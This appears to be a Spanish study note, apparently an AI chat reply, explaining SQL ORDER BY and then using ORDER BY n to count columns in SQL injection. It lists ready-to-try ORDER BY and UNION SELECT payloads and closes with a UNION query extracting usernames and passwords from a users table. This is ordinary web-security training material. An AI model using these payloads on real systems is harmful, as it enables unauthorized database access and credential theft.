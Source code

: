# Order by

---

`ORDER BY` sirve para **ordenar** los resultados de una consulta según una o varias columnas.

* `ORDER BY columna` → ordena por el contenido de `columna`. Por defecto `ASC` (ascendente).
* `ORDER BY columna DESC` → ordena de forma descendente.
* También se puede usar por **posición**: `ORDER BY 1` (primera columna del `SELECT`), `ORDER BY 2` (segunda), etc.

---

Tabla `products`:

| id | name       | category | price | released |
| -- | ---------- | -------- | ----- | -------- |
| 1  | Teddy Bear | Gifts    | 20    | 1        |
| 2  | Toy Car    | Toys     | 15    | 1        |
| 3  | Mug        | Gifts    | 8     | 0        |
| 4  | Chocolate  | Gifts    | 5     | 1        |
| 5  | Board Game | Toys     | 30    | 1        |

### Consultas y resultados

* `SELECT id, name, price FROM products ORDER BY price ASC;` → ordena por `price` (columna explícita).

* `SELECT id, name, price FROM products ORDER BY 2;` → ordena por la **segunda columna del SELECT**, es decir `name`.

Resultados (para `ORDER BY 2`):

| id | name       | price |
| -- | ---------- | ----- |
| 5  | Board Game | 30    |
| 4  | Chocolate  | 5     |
| 3  | Mug        | 8     |
| 1  | Teddy Bear | 20    |
| 2  | Toy Car    | 15    |

---

## `ORDER BY n` para contar columnas

* `ORDER BY n` se refiere a la **posición** `n` en la lista de columnas del `SELECT`.
* Si la consulta original tiene, por ejemplo, 3 columnas (`SELECT a, b, c ...`) y probás `ORDER BY 4`, el motor devolverá un **error** porque no existe la columna en la posición 4.
* En una inyección SQL, iterás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que el `ORDER BY N` produce error. El primer `N` que falla indica que hay `N-1` columnas.

**Importante:** esto cuenta las columnas del `SELECT` que la aplicación construye, no necesariamente todas las columnas que tiene la tabla (salvo que el `SELECT` use `*`, en cuyo caso coinciden).

---

## 4) Ejemplo práctico (SQLi)

Imaginá que la app ejecuta internamente:

```sql
SELECT id, name, price FROM products WHERE id = <INPUT>
```

Si inyectás en `INPUT`:

* `1' ORDER BY 1--` → OK
* `1' ORDER BY 2--` → OK
* `1' ORDER BY 3--` → OK
* `1' ORDER BY 4--` → ERROR (no existe la 4ª columna)

Resultado: la consulta tiene 3 columnas.

**Si la consulta original fuera `SELECT * FROM products ...`**, el `ORDER BY` por posición se refiere a la expansión de `*` (todas las columnas de la tabla), por lo que el conteo te dirá cuántas columnas tiene la tabla en ese contexto.

---

## 5) Payloads listos para probar

* Parámetro **numérico** (sin comillas):

```
1 ORDER BY 1--
1 ORDER BY 2--
1 ORDER BY 3--
1 ORDER BY 4--
```

* Parámetro **string** (necesita cerrar comilla):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

* Alternativa con `UNION SELECT` (cuando no ves errores):

```
' UNION SELECT NULL--            -- prueba 1 columna
' UNION SELECT NULL, NULL--      -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL-- -- prueba 3 columnas
```

Cuando el `UNION` deje de fallar sabrás el número de columnas.

---

## 6) Advertencias y matices

* Si la aplicación **suprime errores**, `ORDER BY` no mostrará fallo visible. Usa `UNION` o inyección ciega (time/boolean).
* Si la consulta original ya contiene un `ORDER BY`, inyectar otro puede romper la sintaxis.
* Si el input se utiliza en otra parte del SQL (p. ej. dentro de una subquery), `ORDER BY` puede no referirse a la lista de columnas que esperás.
* En algunas bases o APIs la referencia por posición puede comportarse ligeramente distinto; la técnica es ampliamente válida en MySQL, PostgreSQL, MSSQL y Oracle en su forma básica.

---

## 7) Ejemplo final: usar el número de columnas para `UNION` y exfiltrar

Si descubriste que el `SELECT` tiene 3 columnas, podés probar:

```sql
' UNION SELECT NULL, NULL, CONCAT(username,0x3a,password) FROM users--
```

Ajustá la columna que contiene texto para que la app la muestre (por ejemplo, si solo la 2ª columna aparece en la página, pon el payload en la 2ª posición: `NULL, payload, NULL`).

---

Si querés, lo subo al lienzo como archivo separado (por ejemplo `theory/ORDER_BY_SQLi.md`) y te genero un bloque listo para copiar en tu repo. ¿Querés que lo guarde así?

